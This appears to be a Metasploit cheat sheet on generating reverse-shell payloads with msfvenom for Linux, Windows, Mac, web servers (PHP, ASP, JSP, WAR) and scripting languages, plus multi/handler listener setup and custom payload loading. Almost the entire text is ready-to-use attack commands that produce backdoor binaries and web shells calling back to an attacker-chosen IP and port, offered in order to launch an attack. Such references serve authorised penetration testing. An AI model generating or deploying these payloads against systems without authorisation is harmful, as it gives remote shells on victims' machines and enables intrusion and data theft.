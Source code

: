## Introduction

One of the most useful and often underrated abilities of **Metasploit** is the **msfpayload** module. This module allows for the creation of multiple payloads, providing a shell in almost any situation. This guide will demonstrate how to generate various payloads using Msfvenom, configure them in Metasploit, and launch an attack.

* * *

### List Available Payloads

```html
msfvenom -l
```

* * *

### Binaries Payloads

#### Linux

```html
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f elf > shell.elf
```

#### Windows

```html
msfvenom -p windows/meterpreter/reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f exe > shell.exe
```

#### Mac

```html
msfvenom -p osx/x86/shell_reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f macho > shell.macho
```

* * *

### Web Payloads

#### PHP

```html
msfvenom -p php/meterpreter/reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -e php/base64 R > shell.php
```

Since the file has been encoded using base64, do not forget to open it using your favorite text editor and add "`<?php`" at the top and "`?>`" at the end.

#### ASP

```html
msfvenom -p windows/meterpreter/reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f asp > shell.asp
```

#### JSP

```html
msfvenom -p java/jsp_shell_reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f raw > shell.jsp
```

#### WAR

```html
msfvenom -p java/jsp_shell_reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f war > shell.war
```

* * *

### Scripting Payloads

#### Python

```html
msfvenom -p cmd/unix/reverse_python LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f raw > shell.py
```

#### Bash

```html
msfvenom -p cmd/unix/reverse_bash LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f raw > shell.sh
```

#### Perl

```html
msfvenom -p cmd/unix/reverse_perl LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f raw > shell.pl
```

* * *

### Shellcode Payloads

For all shellcode, see "`msfvenom --help-formats`" for information on valid parameters. Msfvenom will output code that can be cut and pasted in this language for your exploits.

#### Linux Based Shellcode

```html
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f "LANGUAGE"
```

#### Windows Based Shellcode

```html
msfvenom -p windows/meterpreter/reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f "LANGUAGE"
```

#### Mac Based Shellcode

```html
msfvenom -p osx/x86/shell_reverse_tcp LHOST="YOUR-IP-ADDRESS" LPORT="YOUR-LOCAL-PORT" -f "LANGUAGE"
```

* * *

### Create Handlers

Metasploit handlers are useful for quickly setting up Metasploit to receive incoming shells. Handlers should be configured as follows:

```html
msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set LHOST "YOUR-IP-ADDRESS"
msf exploit(multi/handler) > set LPORT "YOUR-LOCAL-PORT"
msf exploit(multi/handler) > set PAYLOAD "relevant/payload"
msf exploit(multi/handler) > set ExitOnSession false
msf exploit(multi/handler) > exploit -j -z
```

* * *

### Load Custom Payloads

Metasploit allows you to generate a payload and use it during an attack. To use this function, simply generate your payload before running your attack and then specify the custom payload as follows:

```html
msfconsole
msf > use payload/generic/custom
msf payload(custom) > show options
msf payload(custom) > set PAYLOADFILE "/path/to/the/payload"
msf payload(custom) > set PAYLOADSTR "the_payload_string_to_use"
```

* * *

### Conclusion

Metasploit's msfpayload and msfvenom modules are powerful tools for creating and deploying various types of payloads. By following the steps outlined in this guide, you can generate payloads, configure them in Metasploit, and effectively conduct penetration tests. Whether you're targeting Linux, Windows, Mac, or web applications, Metasploit provides the flexibility and power to adapt to almost any situation.